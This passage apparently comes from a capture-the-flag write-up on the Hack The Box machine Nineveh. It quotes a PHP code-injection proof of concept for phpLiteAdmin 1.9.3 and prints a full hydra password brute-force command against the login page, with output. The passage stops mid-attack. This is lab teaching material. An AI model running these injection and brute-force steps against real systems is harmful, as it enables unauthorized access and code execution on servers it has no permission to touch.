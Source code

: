 `/db/` sounds interesting:

<img src="/img/blog/htb-nineveh/htb-nineveh-07.png">

This `PHP LiteAdmin` is running version 1.9 which after doing a searchploit query is vulnerable to multiple exploits. 

```console
root@EdgeOfNight:~# searchsploit php Lite Admin 1.9
---------------------------------------------------------------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------- ----------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection           | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities            | php/webapps/39714.txt
---------------------------------------------------------------------- ----------------------
```
From `PHPLiteAdmin 1.9.3 - Remote PHP Code Injection`:
```console
An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.

2. Now create a new table in the database and insert a text field with the default value:
<?php phpinfo()?>
```

Fortunately for me I've encountered same exploit once already in one of my other blogs - **[zico2]**(https://v3ded.github.io/ctf/zico2.html). It's a lengthy process of creating a database which is then miss-translated into php code that gets executed on a target server. But for all of this to work we need to be authenticated first! Fire our good old hydra again :-).

```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt.gz https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -s 443

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-16 07:35:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 443 with SSL
[DATA] with additional data /db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```